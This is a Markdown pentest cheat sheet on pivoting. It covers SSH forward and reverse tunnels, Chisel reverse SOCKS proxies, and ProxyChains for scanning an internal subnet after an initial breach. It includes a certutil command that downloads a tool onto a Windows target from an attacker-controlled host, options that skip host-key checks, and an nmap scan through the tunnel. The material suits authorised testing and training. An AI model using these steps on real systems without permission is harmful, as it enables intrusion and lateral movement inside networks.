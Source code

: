 ## 1. SSH Tunnels

### 1.1. Useful options to use with SSH tunnels

|Options|Description|
|---|---|
|`bind_address`|`0.0.0.0` means bind to all interfaces; defaults to `lo` loopback interface (`127.0.0.1`) if not specified|
|`-f`|Requests ssh to go to background just before command execution|
|`-N`|Do not execute a remote command. This is useful for just forwarding ports (protocol version 2 only).|
|`-o UserKnownHostsFile=/dev/null`|Pipe the host key to `/dev/null` i.e. do not record host key|
|`-o StrictHostKeyChecking=no`|Automatically add host key to host file (which is piped to `/dev/null` in above option|
|`-i /tmp/id_ecdsa`|Use identity file at `/tmp/id_ecdsa`|

### 1.2. Forward tunnels

**Forward**: direction of SSH connection is **same** as direction of access

#### 1.2.1. Forward static tunnel

##### Syntax

```sh
ssh -L [bind_address:]port:host:hostport [user@]hostname
```

##### Example

![image](/images/ssh-forward-static.png)

```sh
ssh -L 0.0.0.0:13306:10.0.2.91:3306 -L 0.0.0.0:13389:10.0.2.91:3389 user@10.0.1.81
```

#### 1.2.2. Forward dynamic tunnel (a.k.a. forward SOCKS proxy)

##### Syntax

```sh
ssh -D [bind_address:]port [user@]hostname
```

##### Example

![image](/images/ssh-forward-dynamic.png)

```sh
ssh -D 0.0.0.0:1080 user@10.0.1.81
```

### 1.3. Reverse Tunnels

**Reverse**: direction of SSH connection is **reverse** of direction of access

> [!Tip]
> 
> ##### For remote port forwarding:
> 
> - By default, the listening socket on the server can only bind to the `lo` loopback interface (`127.0.0.1`)
> - Set `GatewayPorts yes` in the server's `sshd_config` to enable binding to other interfaces
>
> ```sh
> sed -i 's/#GatewayPorts no/GatewayPorts yes/' /etc/ssh/sshd_config
> ```

#### 1.3.1. Reverse static tunnel

##### Syntax

```sh
ssh -R [bind_address:]port:host:hostport [user@]hostname
```

##### Example

![image](/images/ssh-reverse-static.png)

```sh
ssh -R 0.0.0.0:13306:10.0.2.91:3306 -R 0.0.0.0:13389:10.0.2.91:3389 user@192.168.2.61
```

#### 1.3.2. Reverse dynamic tunnel (a.k.a. reverse SOCKS proxy)

##### Syntax

```sh
ssh -R [bind_addr:]port [user@]hostname
```

##### Example

![image](/images/ssh-reverse-dynamic.png)

```sh
Example: ssh -R 0.0.0.0:1080 user@192.168.2.61
```

## 2. Chisel tunnels

> [!Tip]
>
> [Chisel](https://github.com/jpillora/chisel) is useful for Windows targets that does not have SSH

### 2.1. Preparing chisel binaries

Prepare server on Kali:


```sh
VERSION=$(curl -sI https://github.com/jpillora/chisel/releases/latest | grep location: | cut -d / -f 8 | tr -d '\r' | tr -d 'v')
curl -sLO https://github.com/jpillora/chisel/releases/downloadv$VERSION/chisel_${VERSION}_linux_amd64.gz
gzip -d chisel_${VERSION}_linux_amd64.gz
mv chisel_${VERSION}_linux_amd64 chisel
chmod +x chisel
```

Prepare client binaries for Windows target to download

```sh
VERSION=$(curl -sI https://github.com/jpillora/chisel/releases/latest | grep location: | cut -d / -f 8 | tr -d '\r' | tr -d 'v')
curl -sLO https://github.com/jpillora/chisel/releases/download/v$VERSION/chisel_${VERSION}_windows_amd64.gz
gzip -d chisel_${VERSION}_windows_amd64.gz
mv chisel_${VERSION}_windows_amd64 /var/www/html/chisel.exe
```

Download client binaries on Windows target

```sh
certutil.exe -urlcache -f -split http://kali.vx/chisel.exe %TEMP%\chisel.exe
```

### 2.2. Chisel server configuration

##### Syntax

```sh
chisel server --reverse --port <port>
```

##### Example

```sh
chisel server --reverse --port 8080
```

### 2.3. Chisel Client configuration

#### 2.3.1. Reverse port forwarding

##### Syntax

```sh
chisel client <server> [R:[server-port]:[target-address]:[target-port]]
```

##### Example

![image](/images/chisel-reverse.png)

```sh
chisel client 192.168.2.61:8080 R:13306:10.0.2.91:3306 R:13389:10.0.2.91:3389
```

#### 2.3.2. Reverse SOCKS proxy

##### Syntax

```sh
chisel client <server> R:socks
```

##### Example

![image](/images/chisel-reverse-socks.png)

```sh
chisel client 192.168.2.61:8080 R:0.0.0.0:socks
```

## 3. ProxyChains

- Consider the reverse dynamic tunnel:
  - The accessing client `192.168.1.51` does not have a route to the `10.0.2.0/24` network
  - The initial breach to the host `10.0.1.81` managed to establish a reverse dynamic tunnel and now have a SOCKS proxy on `192.168.2.61:1080`
- ProxyChains can be used to chain any commands on the accessing client to use the SOCK proxy
- Edit the ProxyChains configuration file at `/etc/proxychains4.conf`

```sh
vi /etc/proxychains4.conf
```

- The default ProxyList configuration sets to "tor"

```sh
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4  127.0.0.1 9050
```

- Replace the proxy configuration to the SOCKS proxy created in 2.2.

```sh
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
# socks4  127.0.0.1 9050
socks5  192.168.2.61 1080
```

- Prepend commands targeted for `10.0.2.0/24` with `proxychains`

```sh
proxychains -q nmap -Pn -sT -A 10.0.2.0/24
```

> [!Tip]
>
> 1. ProxyChains only work for TCP traffic, i.e. ICMP (ping, traceroute) and SYN (-sS) scans will not work over ProxyChains
> 2. nmap uses `-sS` by default, so the `-sT` option to use TCP Connect() scan is required
> 3. Use `-O -sV -sC` instead of `-A` to omit running traceroute
> 4. nmap scan may be crawlingly slow, try to use the pivot box to scan instead
